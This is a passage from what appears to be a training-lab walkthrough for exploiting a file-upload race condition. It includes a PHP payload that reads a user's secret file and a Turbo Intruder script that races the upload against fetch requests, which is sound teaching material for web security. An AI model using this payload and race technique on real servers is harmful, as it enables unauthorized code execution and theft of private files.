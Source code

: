 ## Solution steps

- Open Burp Suite and set-up proxy.
- Keep the intercept off.
- Log in using the given credentials and upload an image as your avatar, then go back to your account page.
- In Burp, go to Proxy > HTTP history and notice that your image was fetched using a GET request to /files/avatars/<YOUR-IMAGE>.
- On your system, create a file called exploit.php containing a script for fetching the contents of Carlos's secret. For example: `<?php echo file_get_contents('/home/carlos/secret'); ?>`
- Attempt to upload the script as your avatar. Observe that the server appears to successfully prevent you from uploading files that aren't images.
- If you haven't already, add the Turbo Intruder extension to Burp from the BApp store.
- Right-click on the POST /my-account/avatar request that was used to submit the file upload and select Extensions > Turbo Intruder > Send to turbo intruder. The Turbo Intruder window opens.
- Copy and paste the following script template into Turbo Intruder's Python editor:```
  ```python
  def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST>'''

    request2 = '''<YOUR-GET-REQUEST>'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)

- 

